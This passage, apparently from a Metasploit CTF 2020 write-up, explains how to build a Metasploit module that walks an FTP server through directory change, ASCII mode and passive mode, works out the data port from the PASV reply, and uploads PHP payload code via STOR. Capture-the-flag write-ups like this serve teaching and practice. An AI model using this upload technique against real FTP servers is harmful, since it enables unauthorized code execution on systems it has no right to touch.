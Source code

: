 ```ruby
      unless res && res.include?('250')
        fail_with(Failure::Unknown, "#{rhost}:#{ftp_port} - Failure changing directory to files")
      end
      
      # ascii mode
  
      sock.puts("TYPE a\r\n")
      res = sock.get_once(-1, 10)
      unless res && res.include?('200')
        fail_with(Failure::Unknown, "#{rhost}:#{ftp_port} - Failed to switch to ASCII mode")
      end
  
      # Put into passive mode
  
      sock.puts("PASV\r\n")
      res = sock.get_once(-1, 10)
      unless res && res.include?('227')
        fail_with(Failure::Unknown, "#{rhost}:#{ftp_port} - Failure to enter PASV mode")
      end
```

Looking back to the tcp stream when the server was placed into passive mode, you'll notice an array of integers when the server responds to the PASV command.

<center><img src = "/assets/images/metasploitctf2020/pasvport.png"></center>

This array is the IP address of the server and the randomized ephemeral port that will open up and act as the FTP data port. However, the two final integers are not just combined together to form the port number. There is an equation that must be used to calculate the port from these two numbers:

```
dataport = 256 * p1 + p2
```

p1 and p2 would be the last two number, respectively, in the array shown in the image above. So with this in mind, we need to factor this into our module code so that we can dynamically read in the data port that we will need to send our PHP code to. We will do this with the following code.

```ruby
      port_strings = res.split(",")
      v1 = port_strings[4].to_i 
      v2 = port_strings[5][0..1].to_i 
      
      dataport = 256 * v1 + v2
      print_status("#{rhost}:#{ftp_port} - Data port is #{dataport}")
```

Since we need to send our PHP code to a new port that opened up, we'll need to open up a separate socket connection to the server off the port we just dynamically read in. Following this, we will make a request to the original socket to issue the STOR command with our payload file name, and finally we will send the payload data itself via the "filedata" variable to the server over the second socket connection to the data port.
